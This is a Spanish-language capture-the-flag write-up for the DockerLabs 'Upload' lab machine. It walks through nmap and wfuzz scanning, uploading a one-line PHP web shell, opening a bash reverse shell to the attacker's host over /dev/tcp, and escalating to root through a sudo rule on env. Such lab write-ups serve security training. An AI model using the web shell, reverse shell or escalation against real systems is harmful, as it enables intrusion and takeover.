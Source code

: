 ![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-banner.png)

[Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos con un escaneo de nmap a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

El puerto 80 corresponde a un servicio de http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un escaneo sobre este con un conjunto de scripts basicos de reconocimiento que trae por defecto nmap.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
Guiandonos por el escaneo podemos ver que dentro del puerto 80 se aloja una pagina web que, tal parece, nos dejara subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo php con el que podamos ejecutar comandos atraves de un paramentro. Y es justo lo que haremos.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

Despues de crear el archivo lo subiremos al servidor. Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo.

Para ello, haremos uso de wfuzz para encontrar esa ruta en donde ha sido guardado nuestro archivo.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

Si revisamos el directorio que nos ha econtrado wfuzz llamado "uploads", podremos oberservar que ahi se encuntra alojado nuestro archivo test.php.

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando "id" en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando "id" por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con netcat por el puerto 443.
```shell
nc -nlvp 443
```
Y hacemos la siguiente peticion cambiando el "&" por su expresion en URL, un %26, para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario www-data.

## Escalada de privilegios

Comenzamos ejecuntadno un "sudo -l" para ver si exiten algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que podemos ejecutar el comando "env" como usuario root. Por ende, ejecutamos una bash atraves del comando env con ayuda de un sudo.
```shell
sudo env /bin/bash
```

![image](https://github.com/Crisstianpd/CTFs/blob/f45ffec0d097da4e06089b4f4224cc077d4140cd/DockerLabs/Easy/Upload/imgs/upload-img5.png)
Y comprobamos finalmente atraves de un whoami he id que ya nos econtramos como usuario root.

Y de esta forma hemos resuelto la maquina Upload de DockerLabs.






